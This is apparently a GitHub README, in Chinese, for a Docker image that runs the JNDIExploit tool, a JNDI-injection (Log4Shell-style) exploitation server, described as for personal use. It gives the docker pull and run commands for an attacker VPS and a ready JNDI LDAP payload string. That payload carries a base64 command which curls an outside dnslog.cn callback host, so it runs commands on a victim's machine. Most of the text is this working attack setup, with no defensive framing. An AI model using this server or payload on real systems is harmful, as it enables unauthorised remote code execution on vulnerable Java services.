

# jndiexp
自用的一键启动JNDIExploit-1.2-SNAPSHOT.jar
用法：

docker pull coffeehb/jndiexp:latest

docker run -it --rm -e LDAP_PORT=1389 -e VPS_IP=你的VPSIP -e HTTP_PORT=8000 -p 8000:8000 -p 1389:1389 coffeehb/jndiexp:latest

JNDI：

```
JNDI:ldap://你的VPSIP:1389/Basic/Command/Base64/Y3VybCB4eHh4c3Nzam5kaWV4cHgyMjJ4eC50cnh4emZpLmkuZG5zbG9nLmNu
```

# 效果：


